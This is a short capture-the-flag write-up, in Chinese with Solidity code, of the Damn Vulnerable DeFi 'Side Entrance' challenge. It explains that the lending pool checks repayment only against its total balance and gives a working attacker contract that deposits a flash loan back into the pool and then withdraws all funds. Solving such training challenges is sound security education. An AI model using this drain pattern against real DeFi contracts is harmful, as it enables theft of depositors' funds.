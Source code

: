 # Damn Vulnerable DeFi v4 - side entrance

- https://www.damnvulnerabledefi.xyz/challenges/side-entrance/

## check condition

清空 pool 裡面的資金並轉移到 recovery：

```solidity
assertEq(address(pool).balance, 0, "Pool still has ETH");
assertEq(
    recovery.balance,
    ETHER_IN_POOL,
    "Not enough ETH in recovery account"
);
```

## break

有問題的地方在於 flashloan 檢查是「整個合約的餘額」，沒有考慮到 `deposit` 進入的資金也會被計算進去：

```solidity
function deposit() external payable {
    unchecked {
        balances[msg.sender] += msg.value;
    }
    emit Deposit(msg.sender, msg.value);
}

function flashLoan(uint256 amount) external {
    uint256 balanceBefore = address(this).balance;

    IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

    if (address(this).balance < balanceBefore) {
        revert RepayFailed();
    }
}
```

## solution

先呼叫 falshloan，在 flashloan 中呼叫 `deposit` 回去 pool，接著就可以透過 `withdraw` 將全部的資金轉出：

```solidity
contract Trigger is IFlashLoanEtherReceiver {
    SideEntranceLenderPool internal pool;

    constructor(SideEntranceLenderPool pool_) {
        pool = pool_;
    }

    function execute() public payable {
        pool.deposit{value: msg.value}();
    }

    function flashloan(uint256 amount_) public {
        pool.flashLoan(amount_);
    }

    function withdrawAndSend(address recovery) public {
        pool.withdraw();
        payable(recovery).call{value: address(this).balance}("");
    }

    receive() external payable {}
}
```
